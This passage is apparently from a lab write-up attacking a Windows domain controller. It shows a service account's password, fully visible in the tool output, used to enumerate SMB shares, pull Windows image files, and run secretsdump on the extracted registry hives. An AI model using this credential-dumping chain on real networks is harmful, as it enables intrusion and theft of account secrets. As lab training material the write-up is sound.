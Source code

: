 ```
        Password can change Time :      Sat, 15 Feb 2025 23:51:49 PST
        Password must change Time:      Wed, 13 Sep 30828 19:48:05 PDT
        unknown_2[0..31]...
        user_rid :      0x453
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
```
# Initial Access
```
nxc smb awsjpdc0522.shibuya.vl -u svc_autojoin -p 'K5&<REDACTED>KWhV' --shares                      
SMB         10.10.114.33    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.114.33    445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:K5&A6Dw9d8jrKWhV 
SMB         10.10.114.33    445    AWSJPDC0522      [*] Enumerated shares
SMB         10.10.114.33    445    AWSJPDC0522      Share           Permissions     Remark
SMB         10.10.114.33    445    AWSJPDC0522      -----           -----------     ------
SMB         10.10.114.33    445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         10.10.114.33    445    AWSJPDC0522      C$                              Default share
SMB         10.10.114.33    445    AWSJPDC0522      images$         READ            
SMB         10.10.114.33    445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         10.10.114.33    445    AWSJPDC0522      NETLOGON        READ            Logon server share 
SMB         10.10.114.33    445    AWSJPDC0522      SYSVOL          READ            Logon server share 
SMB         10.10.114.33    445    AWSJPDC0522      users           READ
```
Now we can confirm that this cred is valid and now as the new user, we can read the images$ share, let's dive in and download all the files back to our machine
```
smbng --host 10.10.114.33 -u svc_autojoin -p 'K5&<REDACTED>KWhV' --timeout 30
               _          _ _            _                    
 ___ _ __ ___ | |__   ___| (_) ___ _ __ | |_      _ __   __ _ 
/ __| '_ ` _ \| '_ \ / __| | |/ _ \ '_ \| __|____| '_ \ / _` |
\__ \ | | | | | |_) | (__| | |  __/ | | | ||_____| | | | (_| |
|___/_| |_| |_|_.__/ \___|_|_|\___|_| |_|\__|    |_| |_|\__, |
    by @podalirius_                             v2.1.7  |___/  
    
[+] Successfully authenticated to '10.10.114.33' as '.\svc_autojoin'!
■[\\10.10.114.33\]> use images
[error] No share named 'images' on '10.10.114.33'
■[\\10.10.114.33\]> use images$
■[\\10.10.114.33\images$\]> ls
d-------     0.00 B  2025-02-16 03:24  .\
d--h--s-     0.00 B  2025-02-19 04:59  ..\
-a------    7.88 MB  2025-02-16 03:24  AWSJPWK0222-01.wim
-a------   48.31 MB  2025-02-16 03:24  AWSJPWK0222-02.wim
-a------   30.58 MB  2025-02-16 03:24  AWSJPWK0222-03.wim
-a------  357.12 kB  2025-02-16 03:24  vss-meta.cab
■[\\10.10.114.33\images$\]> get *
```
We got some Windows image files, after a while of harvesting, one of the images will give us all the important hives so that we can perform a credentials dump with secretsdump
```
secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL    
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
```